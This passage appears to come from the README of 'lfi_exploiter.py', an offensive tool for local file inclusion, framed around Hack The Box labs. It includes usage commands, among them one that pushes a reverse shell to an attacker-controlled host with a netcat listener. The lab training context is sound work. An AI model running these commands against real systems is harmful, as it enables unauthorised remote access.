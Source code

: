 ### 3. Reverse Shell
```bash
python3 lfi_exploiter.py -u http://target.com/page.php -p file --auto --revshell --lhost 10.10.10.1
```
**What it does:** Deploys reverse shell to your IP (have `nc -lvnp 4444` ready)

---

## 🎓 First-Time User Path

### Step 1: Read This File (You're doing it!)
**Time:** 2 minutes

### Step 2: Read LFI_EXPLOITER_GUIDE.md
**Time:** 10 minutes
**Why:** Learn all features and options

### Step 3: Try on HTB Box
**Time:** 5 minutes
```bash
# Find an HTB box with LFI
python3 lfi_exploiter.py -u http://10.10.10.X/index.php?page=home -p page --auto
```

### Step 4: Master It
**Time:** 30 minutes
- Try all options
- Test different targets
- Read PHP_WRAPPERS_GUIDE.md for theory

**Total Time to Proficiency:** ~47 minutes

---

## 📖 Documentation Quick Reference

**Need to know...**

| ...how to use the tool? | READ: `LFI_EXPLOITER_GUIDE.md` |
| ...HTB Academy techniques? | READ: `PHP_WRAPPERS_GUIDE.md` |
| ...quick commands? | READ: `QUICK_REFERENCE.txt` |
| ...how it works? | READ: `WORKFLOW_DIAGRAM.txt` |
| ...everything? | READ: `FINAL_SUMMARY.md` |

---

## 💻 Example Session
